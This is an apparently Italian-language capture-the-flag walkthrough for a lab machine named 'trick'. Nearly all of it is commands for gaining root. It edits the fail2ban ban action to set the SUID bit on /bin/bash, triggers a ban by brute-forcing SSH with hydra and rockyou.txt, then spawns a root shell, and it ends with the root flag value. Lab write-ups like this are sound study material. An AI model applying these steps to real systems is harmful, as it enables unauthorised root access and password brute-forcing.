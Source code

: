 1) Vedere la lista dei comandi e file sudo a cui posso accedere come michael:
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
2) cp /etc/fail2ban/action.d/iptables-multiport.conf /tmp/
3) nano iptables-multiport.conf 
4) ``` Just changed actionban to "actionban = chmod +s /bin/bash", everything else was same ```
5) rm /etc/fail2ban/action.d/iptables-multiport.conf 
6) cp iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf 
7) sudo /etc/init.d/fail2ban restart
8) Do this on your machine before restarting the service!
hydra -l michael -P ~/Downloads/rockyou.txt ssh://10.129.36.178
9) Spawn Shell: bash -p
10) Poi se navighi tra le directory nella directory di root dovresti trovarti la root.txt:
b80deaddbfa5c157708ae7cb6fc78263

